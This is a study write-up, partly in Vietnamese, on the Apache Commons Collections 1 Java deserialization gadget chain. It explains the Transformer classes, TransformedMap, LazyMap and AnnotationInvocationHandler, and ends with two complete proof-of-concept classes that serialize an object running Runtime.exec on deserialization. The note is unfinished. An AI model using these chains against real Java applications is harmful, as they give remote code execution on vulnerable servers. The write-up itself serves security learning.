





```
Ứng dụng phải sử dụng thư viện Apache Commons Collections ở các phiên bản cũ (thường là từ phiên bản 3.1 đến 3.2.1).
commons-collections
JDK7 OR JDK 8
```

## Reference
https://zhuanlan.zhihu.com/p/479180596
https://www.cnblogs.com/rodericklog/articles/16340006.html

## Các interface và class liên quan 
**1. Transform**

### 1.1: Transformer
- Một interface chỉ có một method `transform(Object input)`
```java
public interface Transformer {

    /**
     * Transforms the input object (leaving it unchanged) into some output object.
     *
     * @param input  the object to be transformed, should be left unchanged
     * @return a transformed object
     * @throws ClassCastException (runtime) if the input is the wrong class
     * @throws IllegalArgumentException (runtime) if the input is invalid
     * @throws FunctorException (runtime) if the transform cannot be completed
     */
    public Object transform(Object input);

}
```
### 1.2: InvokerTransformer
- Là một class được elements Transformer interface và Serializable interface. Class này có method `InvokerTransformer.transform()` sử dụng Java Reflection (`Method.invoke`) để gọi động bất kỳ phương thức nào trên một đối tượng tùy ý với các tham số được truyền vào.
```java
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }


// triển khai method được kế thừa từ Transformer interface.
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass(); // Get class
        Method method = cls.getMethod(iMethodName, iParamTypes); // Get method via reflection
        return method.invoke(input, iArgs); // Invoke method
        
    } catch (NoSuchMethodException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
    } catch (IllegalAccessException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
    } catch (InvocationTargetException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
    }
}

```
ở class này thao túng  `input` thì có thể dấn đến RCE. 

### 1.3: ConstantTransformer
- Là một class được elements Transformer interface và Serializable interface.
```java
public class ConstantTransformer implements Transformer {
    private final Object iConstant;

    public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn; // Lưu trữ đối tượng được truyền vào
    }

    public Object transform(Object input) {
        return iConstant; // Luôn trả về đối tượng đã lưu, bỏ qua input
    }
}
```
Mọi đối tượng được truyền vào method này đề trả về đối tượng được lưu trữ bỏ qua input.

### 1.4: ChainedTransformer
- Là một class được elements Transformer interface và Serializable interface.Nhiệm vụ chính là xâu chuỗi (link) nhiều đối tượng `InvokerTransformer` nhỏ hơn lại với nhau thành một dây chuyền xử lý tuần tự (pipeline).
```java
    public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
```
**Ví dụ minh họa chuỗi gọi (Pipeline Flow)**
```java
// 1. Tạo mảng chứa các Transformer sẽ chạy nối tiếp nhau
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class), // Bước 1
    new InvokerTransformer("getMethod", new Class[] { String.class }, new Object[] { "getRuntime" }), // Bước 2
    new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }), // Bước 3
    new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc.exe" }) // Bước 4
};

// 2. Xâu chuỗi tất cả lại
ChainedTransformer chain = new ChainedTransformer(transformers);

// 3. Kích hoạt chuỗi bằng cách gọi hàm transform() ban đầu
chain.transform("Bất kỳ thứ gì khởi đầu ở đây");
```


## 2:Firt Chain
```
AnnotationInvocationHandler.readObject()
    ->TransformedMap.checkSetValue()
        ->ChainedTransformer
            ->InvokerTransformer
                ->Runtime.exec
```
2.1: TransformedMap
- `TransformedMap` is a class that implements Serializable. Its constructor accepts a map, a key, and a value, where both the key and the value are Transformers
```java
// TransformedMap class
// constructor
	protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }

```
- `TransformedMap` được sử dụng để thay đổi Java standard data structure Map(wrap một Map để mở rộng hành vi của cấu trúc dữ liệu này).Khi một modified Map thêm element nó sẽ thực hiện một hàm callback(`.transform()`):
```java
// TransformedMap class
// static method được gọi trực tiếp thông qua class
	public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }


    protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

2.2: AnnotationInvocationHandler
- This class implements the Serializable interface, Nhưng không gọi trực tiếp được you need to load it by reflection.
```java
//AnnotationInvocationHandler

// constructor
 AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }


private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
    s.defaultReadObject(); // Deserialize standard fields of the object

    // Check to make sure that types have not evolved incompatibly
    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();

    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    
    // Loop through each entry in the memberValues map (which contains our TransformedMap)
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            
            // Check if the value matches the expected annotation type
            if (!(memberType.isInstance(value) ||
                  value instanceof ExceptionProxy)) {
                  
                // CRITICAL TRIGGER POINT: 
                // Calling setValue() on the map entry triggers TransformedMap.checkSetValue()
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                            annotationType.members().get(name)));
            }
        }
    }
}
```
- Điểm mấu chốt của `readObject` method là `Map.Entry<String, Object> memberValue: memberValues.entrySet()` và `memberValue.setValue(...)`.
- `memberValues`là một Map chứa dữ liệu sau khi deserialize. Kẻ tấn công đóng gói (serialize) một đối tượng `AnnotationInvocationHandler` trong đó trường `memberValues` được gán bằng chiếc `TransformedMap` độc hại (đã nhét sẵn `ChainedTransformer`).

## 3: Second chain

```
AnnotationInvocationHandler.readObject()
    ->LazyMap.get()
        ->ChainedTransformer
            ->InvokerTransformer.transform
                ->Runtime.exec
```
3.1: LazyMap
- `LazyMap` and `TransformedMap` are similar, both originating from the Commons-Collections library and extending `AbstractMapDecorator`. 
- The only difference between `LazyMap`'s vulnerability trigger point and `TransformedMap` is that `TransformedMap` executes `transform` method when writing(thêm / sửa ) elements, while `LazyMap` executes `factory.transform` in its `get` method.
- Khi `get` method không thể tìm được giá trị , nó sẽ gọi `factory.transform` để obtain value. 
```java
// LazyMap class
	  // static method of LazyMap  class 
	public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }

    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }

``` 
- `factory` là cái gì? Khi kẻ tấn công khởi tạo LazyMap, họ truyền vào một đối tượng tên là Factory (thực chất chính là `ChainedTransformer` mà chúng ta đã đóng gói sẵn các lệnh độc hại).
- Khi hàm get() không tìm thấy khóa (key), nó sẽ lập tức thực thi dòng lệnh:`ChainedTransformer` chính thức được kích hoạt
- Khi phương thức `.transform()` của `ChainedTransformer` được gọi, nó sẽ chạy một vòng lặp qua từng phần tử trong mảng, lấy đầu ra của bộ biến đổi trước làm đầu vào cho bộ biến đổi tiếp theo


POC CHAIN 1:
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                // Pass the Runtime class
                new ConstantTransformer(Runtime.class),
                // Reflectively call the getMethod method, which then reflectively calls getRuntime, returning the Runtime.getRuntime() method
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class },
                        new Object[] {"getRuntime", new Class[0] }),
                // Reflectively call the invoke method to execute Runtime.getRuntime(), returning the Runtime instance
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        new Object[] {null, new Object[0] }),
                // Reflectively call the exec method
                new InvokerTransformer("exec",
                        new Class[] {String.class },
                        new Object[] {"open -a Calculator"})
        };
        
        // Chain the 4 transformers together
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "Roderick");
        Map tmap = TransformedMap.decorate(map, null, transformerChain);
        
        // Reflectively obtain the AnnotationInvocationHandler constructor and pass tmap into it
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance(Retention.class, tmap);

        // Serialize and write to file
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("outCC1.bin"));
        oos.writeObject(o);
        oos.close();

/*
        // Deserialize to trigger the payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("outCC1.bin"));
        ois.readObject();
        ois.close();
*/
    }
}
```


POC CHAIN 2:
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1_2 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                // Pass the Runtime class
                new ConstantTransformer(Runtime.class),
                // Reflectively call the getMethod method, which then reflectively calls getRuntime, returning the Runtime.getRuntime() method
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                // Reflectively call the invoke method to execute Runtime.getRuntime(), returning the Runtime instance
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                // Reflectively call the exec method
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"open -a Calculator"})
        };
        
        // Chain the 4 transformers together
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "Roderick");
        Map tmap = LazyMap.decorate(map, transformerChain);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
      
        InvocationHandler handler = (InvocationHandler) declaredConstructor.newInstance(Retention.class, tmap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) declaredConstructor.newInstance(Retention.class, proxyMap);
        
        /*        
        // Serialize and write to file
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("outCC1.bin"));
        oos.writeObject(handler);
        oos.close();
        */
        
        // Deserialize to trigger the payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("outCC1.bin"));
        ois.readObject();
        ois.close();
    }
}
```


## Sơ đồ dễ nhìn






## Tư duy về chain này:
- Đầu vào A: `AnnotationInvocationHandler.readObject()` đang cố gắng thao tác với một Map.
- Đầu sink: `InvokerTransformer.transform()` Sử dụng reflection để gọi method khác. 

- Đi từ sink đi lên (Bottom-Up)
    - Đích đến: chạy lệnh `Runtime.getRuntime().exec("calc");`
    - 